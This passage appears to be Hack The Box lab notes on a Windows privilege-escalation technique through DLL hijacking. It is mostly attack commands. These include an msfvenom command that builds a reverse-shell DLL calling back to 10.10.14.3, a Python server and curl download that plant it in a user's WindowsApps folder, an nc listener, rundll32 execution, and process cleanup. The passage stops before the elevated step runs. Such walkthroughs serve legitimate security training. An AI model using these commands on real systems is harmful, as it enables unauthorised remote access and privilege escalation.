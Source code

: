 <mark style="color:green;">**Generating Malicious srrstr.dll DLL**</mark>

{% code fullWidth="true" %}
```sh
mrroboteLiot_1@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```
{% endcode %}

<mark style="color:green;">**Starting Python HTTP Server on Attack Host**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ sudo python3 -m http.server 8080
```

<mark style="color:green;">**Downloading DLL Target**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```
{% endcode %}

<mark style="color:green;">**Starting nc Listener on Attack Host**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ nc -lvnp 8443
```

<mark style="color:green;">**Testing Connection**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
{% endcode %}

Once we get a connection back, we'll see normal user rights.

```shell-session
mrroboteLiot_1@htb[/htb]$ nc -lnvp 8443

C:\Users\sarah> whoami /priv

whoami /priv
```

<mark style="color:green;">**Executing SystemPropertiesAdvanced.exe on Target Host**</mark>

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```cmd
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```
